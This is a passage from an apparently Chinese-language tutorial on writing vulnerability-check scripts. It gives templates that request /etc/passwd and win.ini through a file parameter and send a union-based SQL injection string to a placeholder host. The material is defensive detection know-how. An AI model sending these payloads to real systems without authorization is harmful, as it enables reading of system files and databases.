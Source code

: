   
在其他操作系统与脚本语言中一样能找到类似的函数来进行**计算**，通过这种方法来判断此类漏洞，就可以减少误报的发生。  
  
  
**文件读取**  
  
此类漏洞我们主要思考的是读取文件的路径，一般寻找固定位置和固定特征以及默认存在的文件，同时要考虑目标操作系统的问题（Windows/Linux等）。  
  
**案例：Linux**  
  
以/etc/passwd为例：  
```
fp = "/etc/passwd"
rsp, req = poc.HTTPEx(f`GET /file_read?file=${fp} HTTP/1.1
Host: www.vulnerable.com

`)~
body = rsp.GetBody()
if rsp.GetStatusCode() == 200 && len(body) > 0 && "root:x:" in body && "nobody:x:" in body {
    dump("存在漏洞")
}
```  
  
**案例：Windows**  
  
以C:\Windows\win.ini为例：  
```
fp = "C:\\Windows\\win.ini"
rsp, req = poc.HTTPEx(f`GET /file_read?file=${fp} HTTP/1.1
Host: www.vulnerable.com

`)~
body = rsp.GetBody()
if rsp.GetStatusCode() == 200 && len(body) > 0 && "16-bit app support" in body {
    dump("存在漏洞")
}
```  
  
  
**SQL注入**  
  
此类漏洞我们首先需要知道的是有没有回显，根据回显的有无，我们可以通过不同的方式进行判断。  
  
**案例：有回显 - 联合注入**  
```
// 假设服务器 SQL 查询语句为：select username, password from users where username = '%s'，其中%s为用户可控，存在SQL注入
s = randstr(16)
username = codec.EscapeQueryUrl(f`xxxxx' union all select 1,md5('${s}'); -- `)
rsp, req = poc.HTTPEx(f`GET /union_sql?username=${username} HTTP/1.1
Host: www.vulnerable.com

`)~
body = rsp.GetBody()
if len(body) > 0 && codec.Md5(s) in body {
    dump("存在漏洞")
}
```  
  